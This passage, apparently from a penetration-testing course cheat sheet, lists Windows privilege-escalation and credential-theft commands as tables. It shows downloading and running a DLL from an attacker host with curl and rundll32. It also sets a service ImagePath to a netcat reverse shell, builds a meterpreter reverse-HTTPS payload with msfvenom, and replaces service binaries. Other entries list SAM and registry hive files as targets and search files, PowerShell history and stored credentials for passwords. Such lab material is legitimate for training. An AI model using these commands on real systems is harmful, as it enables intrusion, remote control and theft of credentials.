 | `[environment]::OSVersion.Version` | Checking Windows version |
| `cmd /c echo %PATH%` | Reviewing path variable |
| `curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"` | Downloading file with cURL in PowerShell |
| `rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll` | Executing custom dll with rundll32.exe |
| `.\SharpUp.exe audit` | Running SharpUp |
| `icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"` | Checking service permissions with icacls |
| `cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"` | Replace a service binary |
| `wmic service get name,displayname,pathname,startmode \| findstr /i "auto" \| findstr /i /v "c:\windows\\" \| findstr /i /v """` |Searching for unquoted service paths|
| `accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services` |Checking for weak service ACLs in the Registry|
| `Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"` |Changing ImagePath with PowerShell|
| `Get-CimInstance Win32_StartupCommand \| select Name, command, Location, User \| fl` |Check startup programs|
| `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe` |Generating a malicious binary|
| `get-process -Id 3324` |Enumerating a process ID with PowerShell|
| `get-service \| ? {$_.DisplayName -like 'Druva*'}` |Enumerate a running service by name with PowerShell|

> **SeTakeOwnership**  
>
> Files of Interest  
> ```
> c:\inetpub\wwwwroot\web.config
> %WINDIR%\repair\sam
> %WINDIR%\repair\system
> %WINDIR%\repair\software, %WINDIR%\repair\security
> %WINDIR%\system32\config\SecEvent.Evt
> %WINDIR%\system32\config\default.sav
> %WINDIR%\system32\config\security.sav
> %WINDIR%\system32\config\software.sav
> %WINDIR%\system32\config\system.sav
> ```
> We may also come across .kdbx KeePass database files, OneNote notebooks, files such as passwords.*, pass.*, creds.*, scripts, other configuration files, virtual hard drive files, and more that we can target to extract sensitive information from to elevate our privileges and further our access.

## Credential Theft

| **Command** | **Description** |
| --------------|-------------------|
| `findstr /SIM /C:"password" *.txt *ini *.cfg *.config *.xml` |Search for files with the phrase "password"|
| `gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' \| Select-String password` |Searching for passwords in Chrome dictionary files|
| `(Get-PSReadLineOption).HistorySavePath` |Confirm PowerShell history save path|
| `gc (Get-PSReadLineOption).HistorySavePath` |Reading PowerShell history file|
| `$credential = Import-Clixml -Path 'C:\scripts\pass.xml'` |Decrypting PowerShell credentials|
| `cd c:\Users\htb-student\Documents & findstr /SI /M "password" *.xml *.ini *.txt` |Searching file contents for a string|
| `findstr /si password *.xml *.ini *.txt *.config` |Searching file contents for a string|
| `findstr /spin "password" *.*` |Searching file contents for a string|
| `select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password` |Search file contents with PowerShell|
| `dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*` |Search for file extensions|